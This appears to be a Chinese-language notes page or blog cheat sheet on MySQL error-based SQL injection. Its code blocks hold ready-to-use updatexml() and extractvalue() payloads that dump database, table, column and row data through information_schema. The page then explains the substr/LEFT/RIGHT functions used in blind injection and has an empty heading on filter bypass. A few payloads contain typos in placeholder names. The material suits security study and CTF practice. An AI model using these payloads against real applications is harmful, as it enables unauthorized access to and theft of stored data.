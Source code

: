 ## 基于xpath 的报错注入

### updatexml（）报错注入

```
1'or(updatexml('~',concat('~',database(),'~'),'~'))# 爆数据库名

1'or(updatexml('~',concat('~',(select((group_concat(schema_name),30))from(information_schema.schemata)),'~'),'~'))#爆所有数据库名

1'or(updatexml('~',concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like'SCHEMA_NAME'),'~'),'~'))#爆表名
1'or(updatexml('~',concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like'geek'),'~'),'~'))%23

1'or(updatexml('~',concat('~',(select((group_concat(COLUME_NAME,'~',))from(DB.TABLE_NAME)),'~'),'~'))#爆数据 
```

### extractvalue()报错注入

```
查数据库名：id='and(select extractvalue(1,concat(0x7e,(select database()))))
爆表名：id='and(select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))
爆字段名：id='and(select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="TABLE_NAME"))))
爆数据：id='and(select extractvalue(1,concat(0x7e,(select group_concat(COIUMN_NAME) from TABLE_NAME)))) 
```

### sql left right 函数

LEFT(ARG,LENGTH)、RIGHT(ARG,LENGTH)

LEFT、RIGHT函数返回ARG最左边、右边的LENGTH个字符串，ARG可以是CHAR或BINARY STRING。

substr

### substr()函数

substr(字符串,截取开始位置,截取长度) //返回截取的字

substr(‘Hello World’,0,1) //返回结果为 ‘H’ *从字符串第一个字符开始截取长度为1的字符串

substr(‘Hello World’,1,1) //返回结果为 ‘H’ *0和1都是表示截取的开始位置为第一个字符

substr(‘Hello World’,2,4) //返回结果为 ‘ello’

substr(‘Hello World’,-3,3)//返回结果为 ‘rld’ *负数(-i)表示截取的开始位置为字符串右端向左数第i个字符

### sql关键字过滤的绕过（持续更新）

总结博客

